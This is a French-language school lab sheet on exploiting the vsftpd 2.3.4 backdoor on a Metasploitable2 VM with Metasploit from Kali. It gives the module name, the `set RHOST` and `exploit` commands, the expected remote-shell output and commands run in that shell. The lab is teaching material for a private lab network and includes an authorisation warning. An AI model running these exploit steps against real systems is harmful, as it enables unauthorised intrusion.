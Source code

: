 # Vulnérabilités Metasploit

Metasploit est un framework d’exploitation de vulnérabilités

🚩 Attention il est interdit d'accéder à des systèmes sans autorisation🏴‍☠️

Support : 

* VM Kalilinux avec utilisation de **metasploit**
* VM Linux vulnérable Metaspoitable

Réseau :

Le réseau doit être en **Accès par pont**
https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_Mise%20_en_r%C3%A9seau_.md


## Objectif :

✨ Vous devez trouver puis exploiter une vulnérabilité sur la machine vulnérable Metaspoitable avec le framework Metasploit installé sous la VM Kalilinux.

-----

## Prérequis 1 :

Nous allons utiliser la VM Linux vulnérable Metaspoitable
##### Création de la VM Metasploitable2 sous VirtualBox
https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_Metasploitable2/Creation_VM_Metaspoitable..md

##### Un fois active et sur le réseau déterminer son adresse IP
* Connaitre l'adrese IP de la cible ici la VM2. voir https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_kali_Nmap/Nmap_scanne_IP/readme.md
-----

## Méthode

Lancer **Metasploit** sous Kalilinux

Tapez le mot de passe de kalilinux

  msf6>

On va rechercher les services et leurs versons avec Nmap.

https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_kali_Nmap/Nmap_scanne_Ports_%26_applications.md

réponse attendue:
>
> Starting Nmap 7.95 (https://nmap.org) at ....
>
> ....

>Port     STATE    Service    Version
>
> **21/tcp   open  ftp   vsf......**
>
>  .....

On va rechercher avec Metasploit s'il existe des vulnaréabilité sur les **vsf...**

    search vsftpd
    
réponse attendue:
>
>Names  Description Date Rank ...
>
>0 aux .....
>
>1 exploit/unix/ftp/vsftpd-234_backdoor ... 2011-07-03  ecellent  No

Ici on voit qu'il a trouvé un exploit : **exploit/unix/ftp/vsftpd-234_backdoor** , avec le nom on peut en déduire qu'il y a une backdoor.

On va chercher plus d'informations

      info exploit/unix/ftp/vsftpd-234_backdoor

réponse attendue:
>
> Name: vsftpd .............
>
> Module: exploit/unix/...........
>
>.....
>
>Provides by:
>
> Basic options:
>
> Payload information:
>
>Description:
>** This module exploits a malicious backdoor .....
>
>References:
>

On va utiliser cette vulnérabilité

    use exploit/unix/ftp/vsftpd-234_backdoor

msf6 exploit(unix/ftp/vsft...backdoor) >

set RHOST 192.168.56.XX

exploit

réponse attendue:
>
> [*] 192.168.56.XX:21 - Banners: 220 ......
>
>.....
>
> [*]  Command shell session 1 opened (192.168.101:42107  --> 192.168.56.XX:6200 at 2025-06-14 10:31:05 +0200

------

## Test la backdoor

on peux se déplacer , créer un répertoire , ....

    ls

    cd home

    ls

    cd 

    mkdir dirciel

    ls

On peut verifier sur la machine VM Linux vulnérable Metaspoitable , le répertoire dirciel existe.


